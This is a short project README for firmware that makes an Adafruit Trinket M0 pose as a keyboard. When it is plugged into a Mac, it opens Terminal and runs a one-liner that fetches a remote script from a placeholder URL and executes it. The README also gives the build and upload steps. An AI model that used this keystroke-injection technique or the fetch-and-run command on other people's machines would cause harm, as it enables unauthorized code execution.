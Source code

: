 # Description
This simply enables the Adafruit Trinket M0 to emulate keyboard input.

In this case, when plugged into a device running OS X, it opens the Terminal app and runs ```bash <(curl -s https://example.com/script)```

# Prerequisites
* [Adafruit Trinket M0](https://www.adafruit.com/product/3500) (not the Trinket 5V/3V)
* [PlatformIO](https://platformio.org/)
  * This is easily [brew](https://brew.sh/) installed with ```brew install platformio```

# Usage
1. Clone this repo
2. Init the project ```platformio init --board=adafruit_trinket_m0```
3. Install the keyboard library ```platformio lib install Keyboard```
4. Update your URL on line 25
5. Build and upload to the trinket ```platformio run -t upload```
   * Watch the output, you'll have 2 seconds to remove it before you script yourself.
